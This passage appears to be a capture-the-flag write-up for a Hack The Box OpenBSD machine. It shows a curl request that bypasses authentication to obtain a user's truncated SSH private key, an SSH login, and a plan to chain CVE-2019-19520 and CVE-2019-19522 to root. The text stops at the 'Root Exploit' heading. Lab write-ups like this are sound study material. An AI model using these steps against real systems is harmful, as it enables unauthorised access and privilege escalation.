 * there is also a `username` variable available,

	  $_SESSION["username"] = $_REQUEST['username'];

* send request with `username=jennifer`

	`curl -L http://10.10.10.199/index.php -d "username=-schallenge&password=password" -b "PHPSESSID=qqe08df89r71d7jb7i869857uh;username=jennifer"`

  __output__, get ssh_key for user jennifer
  
	  OpenSSH key for user jennifer
	  
	  -----BEGIN OPENSSH PRIVATE KEY-----
	  b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
	  ...
	  qtQ5OEFcmVIA/VAAAAG2plbm5pZmVyQG9wZW5rZXlzLmh0Yi5sb2NhbAECAwQFBgc=
	  -----END OPENSSH PRIVATE KEY-----

## ssh

`chmod 600 ssh_key`

`ssh -i ssh_key jennifer@10.10.10.199`
```
openkeys$ whoami         
jennifer
openkeys$ cat user.txt
36ab2123************************
```

## Local Enumeration

```
openkeys$ uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

__OpenBSD version :__ 6.6

__Local Exploit :__ CVE-2019-19520: Local privilege escalation via xlock *from that same "qualys" report*

__vulnerability :__ On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is set-group-ID "auth", not set-user-ID; the following check is therefore incomplete and should use issetugid() instead, A local attacker can exploit this vulnerability and dlopen() their own driver to obtain the privileges of the group "auth".

__Local Exploit :__ CVE-2019-19522: Local privilege escalation via S/Key and YubiKey *from that same "qualys" report*

__vulnerability :__ If the S/Key or YubiKey authentication type is enabled, then a local attacker can exploit the privileges of the group "auth" to obtain the full privileges of the user "root"

* so there are two exploit to get root __First__ get into __"auth"__ group using CVE-2019-19520 and __then__ get __"root"__ using CVE-2019-19522

# Root Exploit
